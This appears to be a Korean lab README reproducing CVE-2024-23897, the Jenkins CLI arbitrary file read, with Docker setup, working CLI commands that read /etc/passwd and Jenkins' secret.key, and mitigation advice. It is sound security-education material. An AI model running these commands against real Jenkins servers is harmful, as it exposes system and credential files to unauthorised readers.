

# CVE-2024-23897

**Contributors**

-   [김태현(@onezr15)](https://github.com/onezr15)

<br/>

# Jenkins CLI 인자 파서를 통한 임의 파일 읽기 (CVE-2024-23897)

Jenkins는 Java 기반의 대표적인 오픈소스 CI/CD 자동화 서버로, 빌드·테스트·배포 파이프라인을 관리하는 데 널리 사용된다.
Jenkins는 내장 CLI(Command Line Interface)를 제공하며, 이 CLI는 인자 파싱에 args4j 라이브러리를 사용한다.
args4j에는 인자 값이 `@` 문자로 시작하면 그 뒤의 경로를 **서버 로컬 파일로 간주하여 내용으로 치환(expandAtFiles)** 하는 기능이 기본 활성화되어 있다.

공격자는 이 동작을 악용해 CLI 명령의 인자에 `@/etc/passwd` 와 같이 파일 경로를 전달함으로써, 인증 없이 또는 최소 권한만으로 Jenkins 서버의 **임의 파일 내용을 읽을 수 있다.**
익명 사용자에게 `Overall/Read` 권한이 있는 경우 파일 전체를 읽을 수 있고, 권한이 없더라도 오류 메시지를 통해 파일의 **앞부분 몇 줄**이 노출될 수 있다.
민감 파일 자체가 곧바로 원격 코드 실행(RCE)을 의미하는 것은 아니지만, 저장된 자격 증명 복호화 등 **추가 설정과 조건이 충족될 경우 RCE로 이어질 수 있다.**

Jenkins 공식 권고문에 따르면 영향을 받는 버전은 Jenkins **2.441 이하** 및 LTS **2.426.2 이하**이며, **2.442**, LTS **2.426.3** 및 **2.440.1** 에서 수정되었다.

참고 자료:

- <https://www.jenkins.io/security/advisory/2024-01-24/>
- <https://nvd.nist.gov/vuln/detail/CVE-2024-23897>

## 환경 설정

Vulhub 원본과 동일한 이미지(`vulhub/jenkins:2.441`)를 사용하여 서버를 시작한다.
해당 이미지는 실습에 맞게 기본 계정 `admin / vulhub` 와 익명 읽기 권한, `DEBUG=1` 설정이 미리 구성되어 있다.

```
docker compose up -d
```

컨테이너가 정상적으로 시작되면 웹 UI는 `http://localhost:8080`에서 접근할 수 있다.
본 취약점 재현에는 로그인이 필수가 아니지만, 필요 시 위 계정(`admin / vulhub`)으로 로그인할 수 있다.

## 취약점 재현

### 1. Jenkins CLI 클라이언트 다운로드

실행 중인 Jenkins 인스턴스는 자신의 CLI 클라이언트를 직접 배포한다.

```
curl -o jenkins-cli.jar http://localhost:8080/jnlpJars/jenkins-cli.jar
```

### 2. `@` 문자를 이용한 임의 파일 읽기

CLI 명령의 인자에 `@` 접두사를 붙여 서버 측 파일 경로를 전달한다. Vulhub 검증 재현 형식은 `help` 뒤에 인자 `1` 을 추가한다.

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/etc/passwd"
```

**출력 예시:** `/etc/passwd`의 첫 번째 줄이 인자 개수 오류 메시지에 포함되어 반환된다.

```text
ERROR: Too many arguments: root:x:0:0:root:/root:/bin/bash
java -jar jenkins-cli.jar help [COMMAND]
```



### 3. Jenkins 민감 파일 유출

동일한 방식으로 자격 증명 복호화에 사용되는 키 파일도 읽을 수 있다.

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

익명 사용자에게 읽기 권한이 부여된 경우, `connect-node` 처럼 여러 인자를 받는 명령을 이용하면 파일을 한 줄씩 전체 유출하는 것도 가능하다.

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

> 첨부한 `exploit.sh` 를 실행하면 위 과정을 자동으로 수행한다. 최초 1회 실행 권한을 부여한 뒤 실행한다:
>
> ```
> chmod +x exploit.sh
> ./exploit.sh /etc/passwd
> ```

## 환경 종료

```
docker compose down
```

## 대응 방안

- Jenkins를 **2.442 이상**, 또는 LTS **2.426.3 이상**(혹은 **2.440.1** 이상)으로 업데이트한다. 해당 버전에서는 CLI의 `@` 파일 확장 기능이 기본 비활성화된다.
- 즉시 패치가 어려운 경우, Jenkins 관리 설정에서 **CLI 접근을 비활성화**한다.
- 익명 사용자에게 `Overall/Read` 권한이 부여되지 않도록 권한 설정을 점검한다.
- 패치 이전에 유출되었을 수 있는 `secret.key`, `master.key` 및 저장된 자격 증명을 모두 교체(rotation)한다.

## 최종 폴더 구조

```text
Jenkins/
└── CVE-2024-23897/
    ├── README.md
    ├── docker-compose.yml
    ├── exploit.sh
    └── 1.png
```
